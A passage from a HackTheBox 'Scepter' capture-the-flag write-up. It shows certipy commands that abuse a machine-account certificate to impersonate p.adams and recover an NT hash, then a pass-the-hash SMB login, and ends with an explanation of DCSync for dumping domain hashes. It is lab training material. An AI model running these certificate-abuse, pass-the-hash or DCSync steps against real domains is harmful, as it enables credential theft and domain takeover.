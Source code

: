 ```bash
X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>1C000000000084E7354DF0D7552F1C00000062
PS C:\temp> 

```

##### 5\. Get certificate of p.adams with ggwp machine account

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy auth -dc-ip 10.10.11.65 -pfx ggwp.pfx -username p.adams
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'ggwp.scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-9108'
[!] The provided username does not match the identity found in the certificate: 'p.adams' - 'ggwp$'
Do you want to continue? (Y/n): Y
[*] Using principal: 'p.adams@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'p.adams.ccache'
File 'p.adams.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

##### proof

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# nxc smb dc01.scepter.htb -u p.adams -H '1b925c524f447bb821a8789c4b118ce0'
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.65     445    DC01             [+] scepter.htb\p.adams:1b925c524f447bb821a8789c4b118ce0
```





## DCSync on dc01.scepter.htb

>>The **DCSync attack** is a post-exploitation technique where an attacker simulates the behavior of a Domain Controller (DC) to request password hashes and secrets from another DC via **replication protocols**. By abusing permissions like **Replicating Directory Changes** and **Replicating Directory Changes All**, the attacker can use tools like Mimikatz to retrieve NTLM hashes, Kerberos keys, and even the **KRBTGT account hash**, which can be used to forge Golden Tickets. This technique does not require code execution on the Domain Controller itself—only the right privileges on an account—making it stealthy and powerful for gaining full domain persistence.
